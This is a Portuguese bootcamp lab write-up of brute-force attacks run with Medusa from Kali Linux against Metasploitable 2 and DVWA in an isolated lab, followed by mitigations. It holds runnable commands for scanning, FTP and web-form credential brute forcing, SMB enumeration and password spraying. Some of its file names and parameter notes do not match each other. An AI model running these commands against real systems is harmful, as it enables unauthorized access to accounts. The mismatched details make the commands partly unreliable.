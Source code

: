 # Laboratorio: Criando um ataque de brute force de senhas com medusa e kali linux (DIO)
Este repositório documenta a execução de um desafio prático de segurança da informação, focado em ataques de força bruta. O projeto foi desenvolvido como parte do bootcamp de Cyber Segurança do Santander - Cibersegurança 2025 - DIO.

*Autor:* Marcelo Leal

*LinkedIn:* https://www.linkedin.com/in/slmarcelo/

---

##  Descrição do Desafio

O objetivo deste projeto é implementar e documentar um cenário prático de ataque de força bruta utilizando *Kali Linux* e a ferramenta *Medusa. O ambiente de teste controlado é composto por máquinas virtuais vulneráveis (como **Metasploitable 2* e *DVWA*) para simular ataques a diferentes serviços (FTP, Web e SMB) e, em seguida, propor as devidas medidas de mitigação.

## 1. Configuração do Ambiente (Laboratório)

Para a realização dos testes, foi configurado um laboratório virtual isolado, garantindo que todas as atividades de pentest ficassem contidas e seguras.

* *Software de Virtualização:* VirtualBox
* *Configuração de Rede:* "Rede Interna" (VirtualBox) para isolar as VMs do restante da rede.

### Máquinas Virtuais

| Propósito | Sistema Operacional | Endereço IP (Exemplo) |
| :--- | :--- | :--- |
| 📍 *Atacante* | Kali Linux | 192.168.56.xxx |
| 🎯 *Vítima* | Metasploitable 2 | 192.168.56.xxx |

### Ferramentas Utilizadas

* *Nmap:* Para reconhecimento e escaneamento de portas e serviços.
* *Medusa:* Ferramenta principal para a execução dos ataques de força bruta.
* *Enum4Linux:* Para enumeração de usuários no serviço SMB.
* *Wordlists:* Listas de senhas e usuários


## 2. Descobrir IPs e verificar a conectividade entre as maquinas

Para descobrir o ip do Kali 

bash
ip addr

Com os seguintes comando é possivel descobrir os ips da rede para encontrar a VM Metasploitable

```bash
arp  -a
```

```bash
sudo nmap -sn 192.168.56.0/24
```

```bash 
sudo netdiscover -r 192.168.56.0/24
```


![Descobrindo IPs](imagens/descobrindo_ips.PNG)

Com os comando acima descobrimos que o ip da nossa VM Metasploitable é IP: 192.168.56.103

Confirmando o IP no Metasploitable

![IPs Meta](imagens/verificacao_ip_meta.PNG)

### 3. Reconhecimeto (nmap)

Com  o seguinte comando vamos verificar os serviços disponiveis no sistema alvo

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.103
```

![Scan Report NMAP](imagens/scan_report.PNG)

Apos rodar o scan temos os serviço e as versoes que estão rodando 

Para confirma se o serviço esta ativo vamos realizar a tentativa de conexao 

![Conectar ao FTP](imagens/conexao_ftp.PNG)


### 3.a Criando a wordlist para utilizar no ataque

No terminal do kali vamos digitar o sguinte comando 

Para criar a wordlist com os usuarios

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```
para criar a wordlist com os senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

![Wordlist](imagens/wordlist.PNG)


### 3.b O ataque (com o medusa)

Vamos utilizar o seguinte comando para executar o ataque

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
```

Parâmetros principais:

-h host alvo

-U arquivo com usuário(s)

-P arquivo com senhas

-M ftp módulo FTP

-T 6 threads (paralela)

-f parar ao encontrar sucesso (opcional)

![Ataque](imagens/ataque.PNG)


Para validar o usuario e senha vamos executar o comando de acesso ao FTP

```bash
ftp 192.168.56.103 
```


![acesso](imagens/validaçãoftp.PNG)


### 4 Ataque ao Formulário Web (DVWA formularios de login)

Simular um ataque de força bruta em um formulário de login web (DVWA) usando o módulo HTTP/form do Medusa (ou ferramentas alternativas como Hydra/Patator).

Descobrindo os parametros que o navegador espera receber


![falhalogin](imagens/falhadelogin.PNG)


Sabemos que o navegar espera receber (username; password; Login)

Executamos o seguinte comando 

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```


apos rodar o comando vamos obter o seguinte resultado

![user e senha](imagens/usersenha.PNG)

testando os dados obtidos

![teste user e senha](imagens/testeusersenha.PNG)


### 5. Ataque em cadeia, enumeração SMB + Password Spraying

Demonstrar a técnica de password spraying contra o serviço SMB/Windows (tentar poucas senhas comuns contra muitos usuários para evitar bloqueios).

Enumerando o usuarios com enum4linux 

```bash
enum4linux -a 192.168.56.103 | tee enum4_output.txt
```

Parametros

-a vai ativar todas as tenicas possiveis

tee grava a saida em arquivo


criar os arquivos de wordlist smb_users.txt e senhas_spray.txt

Users
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
```

senhas

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```
![smb user e senha](imagens/senhas_smb.PNG)




executando o ataque

```bash
medusa -h 192.168.56.103 -U users_smb.txt -P spray_pass.txt -M smb -T 4
```

Parâmetros

-h destino
-U lista de usuarios
-P lista de senhas
-M smbnt modulo para smb
-t 2 duas treads
-T 50 ate 50 hosts paralelos

![smb](imagens/dadossmb.PNG)




### Como mitigar esses ataques

* Desativar serviços desnecessarios
* Utilize sftp scp
* Utilize senhas fortes
* Politicas de bloqueios por numeros de tentativas
* Manter sempre atualizados e validados
* Autenticação multifator
* Auditorias periodicas
* Monitorar e alertar
* Monitoramento inteligente de logs
* Segmentação de rede
* Qualquer tentativa de multiplos logins deve ser alertado
* Prevenção e conciencia tecnica









